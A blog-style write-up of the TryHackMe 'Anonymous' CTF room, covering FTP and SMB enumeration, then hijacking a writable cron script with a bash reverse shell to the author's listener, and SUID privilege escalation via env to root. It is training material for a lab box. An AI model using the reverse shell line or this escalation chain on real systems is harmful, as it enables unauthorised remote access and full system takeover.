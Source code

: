 ```yaml
---
title : "THM: Anonymous WriteUp"
author : Seif-Allah
description : "TryHackMe: WriteUp for the Anonymous room (Level: Medium)"
layout : post
category: CTF-WriteUp
tags : [THM,TryHackMe,WriteUp,Anonymous,Medium,CTF]
image : /assets/images/writeups/thm/anonymous/se.png
---
```



Welcome, Welcome, Welcome and Welcome ! 
This is a WriteUp for the [*anonymous*](https://tryhackme.com/room/anonymous) room.
I Had a lot of fun solving it and I absolutely recommend it. 

### Enumeration 
```
Discovered open port 21/tcp on 10.10.9.178
Discovered open port 445/tcp on 10.10.9.178
Discovered open port 139/tcp on 10.10.9.178
Discovered open port 22/tcp on 10.10.9.178
```
I couldn't answer the 4th question using the *nmap* output, so I started enumerating the *ftp* server which was allowing the *anonymous login*, and I found some files inside a directory called *scripts* : 
```
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1505 Oct 22 19:45 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
```
The *clean.sh* script looks like it deletes any files inside the /tmp directory : 
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
The *removed_files.log* file was filled with : 
```
Running cleanup script:  nothing to delete
```
The *to_do.txt* was just telling that he needs to disable the ftp anonymous login. 


So after enumerating the *ftp* server, let's go back and check the *smb*; but before that let's explain what is *smb*: 
SMB stands for *sever message block*. It’s a protocol for sharing resources like files, printers, in general any resource which should be retrievable or made available by the server. It primarily runs on port 445 or port 139 depending on the server . It is actually natively available in windows, so windows users don’t need to configure anything extra as such besides basic setting up. In linux however ,it is a little different. To make it work for linux, you need to install a samba server because linux natively does not use SMB protocol.

First security flaw in the SMB is using default credentials or easily guessable and sometimes no authentication at all. 
The second flaw is the *samba server* which is extremely vulnerable. 


Ok ,so how do we enumerate when we find that in our nmap scan port 445 is open with samba server on. I only said samba server because linux is predominantly used by enterprises , around 75% to be precise. That being said, the process of enumeration for SMB is the same for both linux and windows with the exception that in linux , you have to check the samba version as well and check if it is vulnerable or not.

I ran *nmap -sC -p 139,445 -sV 10.10.192.43* to know which Samba version is running; 4.7.6
After that I ran *smbmap* to enumerate the Samba server. 
- - -
```bash
root@kali:~/Documents/thm/anonymous# smbmap -H 10.10.192.43 -R
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.192.43...
[+] IP: 10.10.192.43:445        Name: 10.10.192.43                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        .                                                  
        dr--r--r--                0 Sun May 17 11:11:34 2020    .
        dr--r--r--                0 Thu May 14 01:59:10 2020    ..
        fr--r--r--            42663 Tue May 12 00:43:42 2020    corgo2.jpg
        fr--r--r--           265188 Tue May 12 00:43:42 2020    puppos.jpeg
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        .\
        dr--r--r--                0 Sun May 17 11:11:34 2020    .
        dr--r--r--                0 Thu May 14 01:59:10 2020    ..
        -r--r--r--            42663 Tue May 12 00:43:42 2020    corgo2.jpg
        -r--r--r--           265188 Tue May 12 00:43:42 2020    puppos.jpeg
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```
- - - 
-H stands for host and -R stands for recursive switch to list all the files. 
Answering Question 4 : The share on the user's computer is **Pics**. 
Now you can actually retrieve the files using smbmap as well, I’ll leave that as an exercise. But what if we wanted a full fledged command prompt like a ftp prompt? That’s very much possible with smbclient. Lets try to do that.
- - -
```bash
root@kali:~/Documents/thm/anonymous# smbclient \\\\10.10.192.43\\pics
Enter WORKGROUP\seifallah's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 11:11:34 2020
  ..                                  D        0  Thu May 14 01:59:10 2020
  corgo2.jpg                          N    42663  Tue May 12 00:43:42 2020
  puppos.jpeg                         N   265188  Tue May 12 00:43:42 2020

                20508240 blocks of size 1024. 13306812 blocks available
```
- - -
I used *get* command to get the images, nothing special about some poppies pics. I used *binwalk* and *strings* but I found nothing. 

### User Flag

So I went back to the ftp server, and took a look again to *clean.sh* file, and since it's executable and writable, I used it to make a reverse shell; script from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). 

- - - 
```bash
bash -i >& /dev/tcp/10.4.14.245/1234 0>&1
```
- - -
Then I started my local listener, upload the new file using *put* command and waited some seconds for the cronjob to be executed. 

- - -
```ftp 
ftp> put clean.sh 
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
359 bytes sent in 0.00 secs (4.5649 MB/s)
```
- - -
And boom! we got the reverse shell, easy ! 
- - - 
```bash
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.4.14.245] from (UNKNOWN) [10.10.146.152] 55120
bash: cannot set terminal process group (1241): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ 
```
- - -
I found the *user.txt* file in the powered directory. 
Now I need some PrivEsc. 

### PrivEsc
Using the hint : *This may require you to do some outside research* first thing came into my mind is SUID files 
- - -
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null 
```
- - -
looking at the output, we could use *env* file. 
Using [GTFObins](https://gtfobins.github.io/gtfobins/env/#suid), here's the result : 
- - -
```bash
namelessone@anonymous:~$ /usr/bin/env /bin/bash -p
/usr/bin/env /bin/bash -p
ls
pics
user.txt
whoami
root
```
- - -
Now easily run this command to get the *root.txt* file.
- - -
```bash
cat /root/root.txt
```
- - -

